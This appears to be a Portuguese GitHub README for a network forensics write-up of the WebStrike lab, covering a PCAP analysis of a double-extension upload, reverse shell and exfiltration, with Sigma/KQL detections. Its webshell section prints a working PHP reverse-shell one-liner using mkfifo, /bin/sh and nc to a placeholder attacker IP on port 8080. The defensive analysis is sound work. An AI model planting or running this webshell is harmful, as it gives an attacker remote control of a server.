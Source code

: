 # WebStrike — Network Forensics & Detections  
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Contexto
Recebi um **PCAP** (tráfego capturado) do **servidor web** da empresa. Meu objetivo foi **confirmar um possível comprometimento**, entender **como** aconteceu e produzir **evidências, detecções e recomendações** acionáveis.

## Como conduzi a investigação (meu raciocínio)
1) **Mapeei os hosts e fluxos** no PCAP (Wireshark → *Statistics > Endpoints*).
2) **Contextualizei a origem** com **GeoIP** do IP externo suspeito.
3) **Busquei POST multipart** (upload) e indícios de **dupla extensão** em `filename=`; observei uma primeira tentativa falha e uma segunda bem-sucedida com `*.jpg.php` (exemplo genérico).
4) **Inspecionei o script** para confirmar **reverse shell** e **conexão de saída**.
5) **Procurei exfiltração** (picos de bytes **HTTP/HTTPS**) e padrões de automação.
6) **Consolidei evidências** em **timeline**; criei **regras Sigma/KQL** e **relatórios** técnico/executivo com recomendações.

## Principais achados (generalizados, sem spoilers)
- **Entrada:** *Upload* malicioso via **dupla extensão** (`.jpg.php`) contornando validação.
- **Pós-exploração:** **Reverse shell** com **conexão de saída :8080** para IP externo.
- **Exfiltração:** **POST** em **443** com volume anômalo sugerindo envio de dados sensíveis.

## Recomendações objetivas (24–72h)
- **Bloquear IoCs** e saídas **:8080** não justificadas.
- **WAF/validação de upload:** negar **dupla extensão** e inspecionar `multipart`.
- **No-exec em `/uploads`** (impedir execução de scripts em diretórios de mídia).
- Reforçar **monitoramento/detecções** (Sigma/KQL) e perfis de **volume** em 443.

---

## Objetivos de investigação (sem spoilers)

<summary><b>O1 — Origem do tráfego suspeito (GeoIP)</b></summary>

**Pergunta:** de onde partiu a atividade maliciosa?  
**O que fiz:** levantei *top talkers* (Wireshark → Endpoints) e consultei **GeoIP** do IP externo.  
**Por que importa:** apoia *geo-blocking*, triagem de *threat intel* e contexto de risco.  
**Artefatos:** [`endpoints.txt`](20-network-analysis/tshark-commands.md) • [`timeline.md`](20-network-analysis/timeline.md)  

<summary><b>O2 — Identificação do agente cliente (User-Agent)</b></summary>

**Pergunta:** qual *User-Agent* foi usado na interação inicial?  
**O que fiz:** reconstruí **HTTP Stream** e inspecionei cabeçalhos; comparei com perfis legítimos.  
**Por que importa:** ajuda a criar **regras de filtragem** e detectar *tooling* disfarçado.  
**Artefatos:** [`wireshark-filters.md`](20-network-analysis/wireshark-filters.md) • `report-technical.md`  

<summary><b>O3 — Mecanismo de entrada (upload malicioso)</b></summary>

**Pergunta:** houve **upload de script** e como passou pela validação?  
**O que fiz:** filtrei `HTTP POST` multipart, busquei `filename=` e indícios de **dupla extensão**; confirmei sucesso do upload.  
**Por que importa:** evidencia **bypass de validação** e define **controles WAF**/hardening.  
**Artefatos:** [`web_upload_double_extension.yml`](30-detections/sigma/web_upload_double_extension.yml) • [`post_uploads.tsv`](20-network-analysis/tshark-commands.md)  
**Exemplo genérico:** `*.jpg.php` (exemplo **genérico**, não a resposta do lab).  

<summary><b>O4 — Local de armazenamento de uploads</b></summary>

**Pergunta:** onde o aplicativo armazena os arquivos enviados?  
**O que fiz:** segui **redirects** (HTTP 3xx) e navegação pós-upload para inferir o diretório.  
**Por que importa:** permite **remediação** (limpeza) e **no-exec** no diretório de mídia.  
**Artefatos:** [`timeline.md`](20-network-analysis/timeline.md) • `report-technical.md`  

<summary><b>O5 — Canal de comando e controle (reverse shell)</b></summary>

**Pergunta:** há **conexão de saída** para C2? qual **porta**?  
**O que fiz:** procurei padrões de **reverse shell** e conexões **outbound** atípicas; destaque para porta alta.  
**Por que importa:** base para **Egress Control** e detecção comportamental.  
**Artefatos:** [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) • `revshell.tsv`  

<summary><b>O6 — Tentativa de exfiltração</b></summary>

**Pergunta:** houve **envio de dados sensíveis** via HTTP/HTTPS?  
**O que fiz:** busquei **POST/PUT** com **alto volume** e padrões de `curl`/automação; sinalizei artefatos sensíveis (ex.: `/etc/passwd` como **exemplo genérico**).  
**Por que importa:** prioriza **resposta a incidentes** e criação de **regras de exfil**.  
**Artefatos:** [`web_exfil_high_volume.kql`](30-detections/kql/web_exfil_high_volume.kql) • `http_posts.tsv`  

---

## Como replicar (dados sintéticos)
Os artefatos abaixo incluem **consultas**, **regras** e **amostras sintéticas** para reproduzir consultas e visualizar o método, **sem** expor dados do laboratório.

- `20-network-analysis/` — filtros/extrações e timeline
- `30-detections/` — Sigma & KQL
- `50-reports/` — relatórios (técnico + executivo)

> **Licença:** MIT (apenas para o meu conteúdo autoral).  
> **Atribuição:** cenário inspirado no WebStrike Lab (link oficial na seção *references*).

---

## Análise do webshell (padrão de reverse shell — generalizado, sem spoilers)

Durante a inspeção do artefato de upload (webshell), identifiquei um **padrão clássico de reverse shell** em PHP
que orquestra FIFO em `/tmp` e inicia um shell interativo encaminhado via `nc` (*netcat*) para um **IP externo** e **porta alta**.

> **Snippet generalizado (placeholder):**
```php
<?php
system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f");
?>
```

- O comando `nc` indica **conexão de saída** para o **controlador** (C2).  
- A **porta-alvo** (no exemplo: **8080**) é um indicativo útil para **Egress Control** e detecção comportamental.
- Para fins de **ética/no-spoilers**, o endereço IP real foi substituído por `<ATTACKER_IP>`.

**Detecções relacionadas**
- [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) — monitoramento de conexões de saída para 8080.
- [`reverse_shell_nc_command.yml`](30-detections/sigma/reverse_shell_nc_command.yml) — detecção de *payloads* de upload contendo sequência de **FIFO + /bin/sh + nc** (quando o *logsource* captura corpo da requisição).
